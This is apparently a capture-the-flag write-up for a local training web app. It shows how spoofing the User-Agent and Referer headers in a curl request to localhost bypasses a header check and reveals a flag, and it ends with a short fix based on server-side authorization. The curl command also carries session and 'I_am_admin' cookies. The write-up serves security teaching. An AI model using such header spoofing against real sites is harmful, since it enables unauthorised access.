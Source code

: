 # Breach Name: User-Agent and Referer Manipulation
## Description of the Breach

This breach was identified through a hidden link on the website, which led to a page that provided clues for further exploitation. By manipulating the User-Agent and Referer headers in an HTTP request, we were able to bypass certain conditions and reveal the flag.

## Steps to Reproduce

1. Identify the Hidden Link:

	From the homepage, navigate to the hidden link:
	```bash
	http://localhost:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
	```

2. Inspect the Page for Clues:

	Upon visiting the hidden link, inspect the page's HTML and review any comments or hidden elements that might provide hints. One of the clues suggests making a request from a website as a specific browser.

3. Capture a Network Request:

	Use the browser's developer tools to navigate to the "Network" tab and capture the HTTP request made when visiting the page.

4. Copy the Request as cURL:

	Right-click on the captured request and select "Copy as cURL". This will give you a cURL command that you can modify to exploit the vulnerability.

5. Modify the User-Agent and Referer Headers:

	Modify the cURL command by changing the User-Agent and Referer headers as per the clues found in the HTML. Use the following modified cURL command:
	```bash
	curl 'http://localhost:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' \
	-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8' \
	-H 'Accept-Language: en-US,en' \
	-H 'Connection: keep-alive' \
	-H 'Cookie: csrftoken=6la8Whx71kgYwiu1HUqby8bGHiSkJf2j9rlT80LuniGLvkJzAtbJNOx4EK5rXVKe; sessionid=wkyan96hdzkvna3h6vfkck2lbsci7d30; I_am_admin=68934a3e9455fa72420237eb05902327' \
	-H 'Referer: https://www.nsa.gov/' \
	-H 'Sec-Fetch-Dest: document' \
	-H 'Sec-Fetch-Mode: navigate' \
	-H 'Sec-Fetch-Site: same-origin' \
	-H 'Sec-Fetch-User: ?1' \
	-H 'Sec-GPC: 1' \
	-H 'Upgrade-Insecure-Requests: 1' \
	-H 'User-Agent: ft_bornToSec' \
	-H 'sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Brave";v="126"' \
	-H 'sec-ch-ua-mobile: ?0' \
	-H 'sec-ch-ua-platform: "Linux"'
	```

6. Execute the cURL Command:

	Run the modified cURL command in your terminal. This will send the HTTP request with the modified headers to the server.

7. Retrieve the Flag:

	Upon successful execution, the HTML returned from the server will contain the flag. Look for a line similar to this:
	```html
	<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
	```

# Explanation of the Breach

The vulnerability exploited here is related to the server’s reliance on specific HTTP headers (User-Agent and Referer) to determine whether to grant access to certain content. By manipulating these headers, we were able to trick the server into revealing sensitive information, in this case, the flag.

# How to Fix the Breach

To prevent this type of vulnerability, the following measures should be implemented:

- Server-Side Validation:

  Implement proper server-side validation and authorization mechanisms. Access to sensitive data should be controlled by secure authentication methods, not by checking HTTP headers.
